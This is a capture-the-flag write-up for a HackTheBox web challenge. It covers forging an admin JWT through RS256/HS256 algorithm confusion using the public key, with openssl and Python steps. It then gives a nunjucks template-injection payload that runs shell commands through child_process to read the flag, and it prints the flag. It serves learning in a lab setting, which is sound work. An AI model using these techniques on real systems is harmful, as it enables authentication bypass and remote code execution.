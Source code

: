 # Cyber Santa – Naughty or Nice

- **Category:** Web
- **Points:** 325
- **Difficulty:** ★★☆☆

## Disclaimer: I did not solve this challenge during the competition.

## Challenge

A website with a simple register/login as well as dashboard page. Source code was supplied.

## Solution

- JWT Token Signing Algorithm accepts both `RS256` and the insecure `HS256`

```
async sign(data) {
    data = Object.assign(data, {pk:publicKey});
    return (await jwt.sign(data, privateKey, { algorithm:'RS256' }))
},
async verify(token) {
    return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
}
```

- JWT Token was in format `{username: "xxx", "pk:" "xxx", "iat": "xxx"}`
- Where `pk` was the Public Key that was used to sign the token
- Modifying the JWT Token to accept `HS256` as its algorithm and changing the username to `admin`. We get a new JWT
- We need to sign the this new JWT token using the Public Key supplied

  - Convert the Public Key into hex
    - Add the Public Key to a file called `test.pem`
    - ```
      cat test.pem | xxd -p | tr -d "\\n"
      ```
  - Run the command `echo -n "new_jwt_token" | openssl dgst -sha256 -mac HMAC -macopt hexkey: \_the_hex_of_publickey
  - Convert the signature into base64 and remove appended equals signs

  ```
  import base64, binascii
  print(base64.urlsafe_b64encode(binascii.a2b_hex('signature')).replace(b'=',b''))
  ```

  - Append the secret to the header and payload of the new jwt and refresh page

- There is template rendering from the nunjucks templating engine
- Using the payload

```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat ../flag*')")()}}
```

retrieves the flag

```
HTB{S4nt4_g0t_ninety9_pr0bl3ms_but_chr1stm4s_4in7_0n3}
```

## Thoughts

- This was quite hard. Even while following writeups, had a bit of trouble
- Getting the jwt signed with the Public Key had to be on my Kali VM because my Mac had some error setting context, bad key length in some crypto internal error that I couldn't rectify
- Hex encoding of base 64 public key should have been done using the bash utilities. I did not figure out why converting it into bytes then hex gave me an invalid signature.
- Learnt a new templating payload
- Learnt how to crack jwts! (weak ones that accept multiple algorithms)
